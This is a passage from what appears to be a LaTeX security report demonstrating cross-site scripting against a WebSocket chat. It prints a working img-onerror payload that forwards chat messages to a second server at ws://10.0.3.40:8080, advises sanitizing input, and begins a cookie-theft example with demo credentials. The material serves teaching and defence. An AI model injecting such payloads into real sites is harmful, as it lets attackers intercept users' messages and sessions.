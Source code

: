 	\begin{lstlisting}[language=html]
		<img src=1 hidden onerror="var badws=new WebSocket('ws://10.0.3.40:8080/'); function send(){var msg=document.getElementById('msg').value;addMsg(msg);ws.send(msg);badws.send(msg);} var tmp=document.getElementById('send'); tmp.onclick=send;">
	\end{lstlisting}
	
	In this example we created a new WebSocket and defined again the \texttt{send(…)} function invoked by the button that sends a message, we added: \texttt{badws.send(msg)} in order to forward the message to another server.
	The code for the malicious server is very similar to the code of the legitimate WebSocket server, it only writes on the console the received messages.
	
	In order to avoid trivial attack like the one presented, the client should always check incoming data, and if the data must be showed to the user it must be sanitized properly.\newline
	Another possible way to avoid an attack like that is to perform a sanitization even server side, in such a way the server act as a proxy that secure the messages, of course the client must still check the incoming data, assuming that the server is not compromised is a strong assumption that should not be done.\newline
	
	In order to reproduce this example you only need the following Java library for server side WebSocket: \url{https://github.com/TooTallNate/Java-WebSocket}.
	
	
	\paragraph{Example 2} I will now show you an example that could leak important information contained in a cookie, for example the session id, if an attacker is capable of stealing your id, he can access the website with your credentials without the need of knowing your username and password.\newline
	
	\texttt{Note:} again the login procedure is not secure, the focus is not on it and it is as simple as possible in order to make this example easy to reproduce.\newline
	
	The login page is the same seen before in example 1, the reserved page is similar but it allows the access with the following credentials:
	\begin{itemize}
		\item \texttt{pippo pippo}
		\item \texttt{pluto pluto}
	\end{itemize}
	The page includes the code of the previous chat example, the javascript code is the same and even the Java server code.\newline
	

